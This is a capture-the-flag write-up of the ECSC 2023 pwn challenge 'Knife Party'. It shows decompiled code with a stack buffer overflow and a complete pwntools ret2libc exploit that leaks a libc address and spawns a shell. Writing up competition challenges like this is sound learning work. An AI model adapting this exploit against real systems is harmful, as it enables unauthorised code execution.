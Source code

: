```yaml
---
id: 15
title: "ECSC 2023: Knife Party"
subtitle: "ECSC 2023 Day 1: Pwn"
date: "2023.11.02"
tags: "ecsc, ecsc2023, c++, pwn, ctf"
---
```


## Foreword

I participated in ECSC 2023 as a guest team as part of Team Singapore with NUS Greyhats. The competition was quite chaotic due to many factors but in the end it was still a fun competitions thanks to all the interesting compeititors. This was a live on-site competition in Hamar, Norway so I was lucky enough to get a free holiday in the middle of my school term as well :)

I mainly did the pwn challenges relating to the stack because I'm not very good at heap pwn, so I left it up to my teammate.

This challenge is a pretty straight forward ret2libc challenge if you read through the decompiled code. It hides its vulnerabilities in a few different functions.

# Knife Party

We run `checksec` on the binary:
```bash
[*] '/mnt/e/ctf_archive/ecsc2023/d1/knifeparty/knife_party'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```

It has Full RELRO and NX enabled, but no canary or PIE.

First we open the binary in IDA and we see that it calls 3 functions, `setup()`, `banner()` and `forge()`. A quick sift through shows us that `forge()` is the function that handles the menu. Decompiling `forge()` yields the following:

```c++
__int64 forge()
{
  __int64 num; // rax

  printf("Choose class of knife!\n\n1. Sword\n2. Bat\n3. Knife\n\n>> ");
  num = read_num();
  if ( num == 2 )
    return forge_bat();
  if ( num == 3 )
    forge_knife();
  if ( num != 1 )
  {
    error("No such class! Come back when you are ready!\n");
    exit(22);
  }
  return forge_sword();
}
```

Testing the binary against inputs hints us that `forge_knife()` does nothing of value, `forge_bat()` and `forge_sword()` are the functions we are interested in. Opening them up in IDA, we can see that both of the functions have a buffer overflow vulnerability. We focus on `forge_sword()`:
```c++
int forge_sword()
{
  __int64 buf[4]; // [rsp+0h] [rbp-30h] BYREF
  unsigned __int64 num; // [rsp+20h] [rbp-10h]
  unsigned __int64 i; // [rsp+28h] [rbp-8h]

  memset(buf, 0, sizeof(buf));
  printf("\nThe Sword class is pretty accurate and fast when carving a pumpkin!\n\nChoose length of sword (1-5): ");
  num = read_num();
  if ( num - 1 > 4 )
    return error("Invalid length! Come back when you are ready!\n");
  puts(asc_40104F);
  for ( i = 0LL; i <= num; ++i )
    puts(&byte_401056);
  puts(asc_401060);
  printf(
    "\n%s[+] Here is your sword! Do you want to give it a name for the contest?\n\n>> %s",
    "\x1B[1;32m",
    "\x1B[1;34m");
  read(0, buf, 0x120uLL);
  return puts("\nBest of luck!!");
}
```

`buf` is initialized with size `0x30` but at the end before `return`, `read(0, buf, 0x120uLL)` allows a `0x120uLL` size read into the buffer. This means we can attempt a ret2libc attack.

The offset for the bof would be `0x30` (buffer size) + `0x8` (`$rbp`) which gives us `0x38`. We pad `0x38` and do a ret2libc attack, building a ROP chain to leak the lilbc addresses. We then redo the same thing but with the leaked libc offset to find `system` and `/bin/sh`. Build and execute the next ROP chain to pop shell.

pwntools automates the process for us.
```py
from pwn import *
from exploit import *

# set exploit source, context binary, context log_level, libc
elf = context.binary = ELF("./knife_party", checksec=False)
# context.log_level = 'debug'
libc = ELF("./glibc/libc.so.6")

# Run binary 1st time
p = exploit_source("./knife_party", "localhost")

rop = ROP(elf)

p.sendlineafter(b'>> ', "1")
p.recvuntil(": ")
p.sendline("5")
p.recvuntil(">> ")

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

payload = flat([{0x38: p64(pop_rdi)},
                elf.got['puts'],
                elf.symbols['puts'],
                elf.symbols['main']])

# leak libc address and calculate libc base
p.sendline(payload)
p.recvuntil(b'Best of luck!!\n')

libc.address = u64(p.recvline().strip().ljust(8,b'\x00')) - libc.symbols['puts']
success(f"{hex(libc.address) =}")

# ret2libc
p.sendlineafter(b'>> ', "1")
p.recvuntil(": ")
p.sendline("5")
p.recvuntil(">> ")

rop2 = ROP(libc)

libc_ret = rop2.find_gadget(['ret'])[0]
rop2.raw(libc_ret)
rop2.system(next(libc.search(b'/bin/sh')))

payload2 = flat({0x38: rop2.chain()})

p.sendline(payload2)

p.interactive()
```

Run the code on remote, pop shell, then simply `cat flag.txt` for the flag.